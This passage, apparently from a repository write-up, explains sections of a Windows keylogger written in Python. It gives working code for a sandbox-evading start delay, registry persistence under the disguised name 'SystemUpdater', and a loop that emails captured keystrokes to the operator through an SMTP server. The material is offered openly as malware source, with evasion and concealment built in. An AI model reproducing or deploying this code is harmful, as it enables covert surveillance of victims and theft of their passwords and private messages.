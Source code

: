 ### 3. **Anti-Sandboxing Delay**

The keylogger waits 10 seconds before starting, which can help evade some sandbox environments that may only monitor activity for a short period.

```python
time.sleep(10)
```

### 4. **Persistence Mechanism**

The keylogger sets itself up as a startup item in the Windows registry. This ensures it runs each time the system boots.

```python
def add_persistence():
    key = r"Software\Microsoft\Windows\CurrentVersion\Run"
    value_name = "SystemUpdater"
    keylogger_path = os.path.realpath(sys.argv[0])
    ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, keylogger_path)
```

### 5. **Email Log Exfiltration**

The function `send_email()` sends the contents of the `log` to a specified email address at regular intervals using `smtplib`. The function connects to the email provider's SMTP server to send the log data.

```python
def send_email(log_data):
    msg = MIMEMultipart()
    msg["From"] = EMAIL_ADDRESS
    msg["To"] = EMAIL_ADDRESS
    msg["Subject"] = "Keylogger Log"

    msg.attach(MIMEText(log_data, "plain"))

    # Connect to server and send email
    server = smtplib.SMTP("smtp.example.com", 587)  # Replace with email provider's SMTP server
    server.starttls()
    server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
    server.sendmail(EMAIL_ADDRESS, EMAIL_ADDRESS, msg.as_string())
    server.quit()
```

### 6. **Periodic Reporting**

The `report()` function periodically sends the log contents and clears it, creating a continuous exfiltration loop.

```python
def report():
    global log
    while True:
        if log:
            send_email(log)
            log = ""
        time.sleep(SEND_INTERVAL)
```
